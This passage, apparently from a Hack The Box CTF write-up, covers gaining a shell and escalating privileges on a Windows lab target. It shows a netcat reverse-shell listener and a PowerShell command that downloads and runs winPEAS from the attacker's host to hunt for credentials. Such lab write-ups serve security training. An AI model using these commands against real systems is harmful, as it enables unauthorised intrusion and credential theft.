 prepare python3 web server on our kali linux `sudo python3 -m http.server 80`, 

![python3 service](/assets/images/htbbiz2021-parkor/python3.png)

and run netcat listener `nc -lvnp 4444`

![Got a shell](/assets/images/htbbiz2021-parkor/user.png)

![Got a shell](/assets/images/htbbiz2021-parkor/user_flag.png)

# Privilege Escalation
Let's upload, and run `winPEASany.exe`
```bash
PS C:\> mkdir temp

    Directory: C:\

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        7/27/2021   6:40 AM                temp                                                                  

PS C:\> cd temp
PS C:\temp> (new-object net.webclient).downloadfile('http://10.10.14.172/winPEASany.exe', 'C:\temp\winPEASany.exe')
PS C:\temp> ./winPEASany.exe
```
we found `parkor` creds